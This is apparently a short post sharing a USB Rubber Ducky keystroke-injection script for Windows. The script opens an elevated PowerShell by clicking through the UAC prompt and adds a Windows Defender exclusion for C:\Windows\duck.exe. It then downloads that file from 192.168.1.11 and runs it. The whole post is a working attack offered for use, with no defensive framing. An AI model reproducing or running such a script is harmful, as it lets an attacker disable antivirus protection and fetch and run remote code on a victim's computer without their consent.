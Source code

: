 Howdy!

This simple adds a powershell line to create an exclusionpath for your payload

Hope you get some enjoyment from it!

DELAY 1000
GUI r
DELAY 100
STRING powershell
ENTER
DELAY 300
STRING Start-Process powershell -Verb runAs
ENTER
DELAY 200
LEFT
DELAY 100
ENTER
DELAY 500
STRING Set-MpPreference -ExclusionPath:{C:\Windows\duck.exe}
ENTER
DELAY 200
STRING Invoke-WebRequest http://192.168.1.11/duck.exe -Outfile C:\Windows\duck.exe
ENTER
DELAY 200
STRING start-process C:\Windows\duck.exe
ENTER
DELAY 200
STRING EXIT
DELAY 100
ENTER
DELAY 400
STRING EXIT
ENTER
